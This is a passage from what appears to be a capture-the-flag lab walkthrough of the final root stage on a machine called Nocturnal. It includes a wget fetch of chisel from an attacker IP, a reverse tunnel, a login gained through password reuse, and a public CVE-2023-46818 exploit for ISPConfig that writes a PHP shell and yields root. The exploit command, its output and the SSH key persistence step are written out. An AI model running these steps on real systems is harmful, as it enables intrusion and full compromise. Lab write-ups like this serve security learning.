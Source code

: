 victim:

```
tobias@nocturnal:$ wget http://10.10.14.168/chisel
...
tobias@nocturnal:$ chmod +x chisel
```

attacker:

`./chisel server -p 8081 --reverse`

victim:

`tobias@nocturnal:~$ ./chisel client 10.10.14.168:8081 r:8080:127.0.0.1:8080`

now i can navigate to `http://127.0.0.1:8080` and i'm presented with an ispconfig login

i'll try `tobias : slowmotionapocalypse`
didn't work :(( 

now, password reuse is a pretty command vulnerability in the real world, so what if we try a common username like admin? 
`admin : slowmotionapocalypse`

it worked!! 

nice, i did some research and discovered that this is vulnerable to `CVE-2023–46818` https://github.com/ajdumanhug/cve-2023-46818

"this python exploit script targets a security vulnerability in ispconfig's records post parameter to /admin/language_edit.php, which is not properly sanitized. this allows an authenticated admin to inject and execute arbitrary php code."

i'll download this python script and try it out!

`wget https://raw.githubusercontent.com/ajdumanhug/cve-2023-46818/refs/heads/main/cve-2023-46818.py`

```
python3 cve-2023-46818.py http://127.0.0.1:8080 admin slowmotionapocalypse

[+] logging in with username 'admin' and password 'slowmotionapocalypse'
[+] login successful!
[+] fetching csrf tokens...
[+] csrf id: language_edit_36cc7ea52d87a07090f76f31
[+] csrf key: ae6a2d3694a0ae5044315664fa8b45c0b9139fa0
[+] injecting shell payload...
[+] shell written to: http://127.0.0.1:8080/admin/sh.php
[+] launching shell...

ispconfig-shell# id
uid=0(root) gid=0(root) groups=0(root)
```

awesome! i like to finish these with a true tty shell, so i'll copy over a private key.

`ssh-keygen -t rsa`

and copy the public key over.
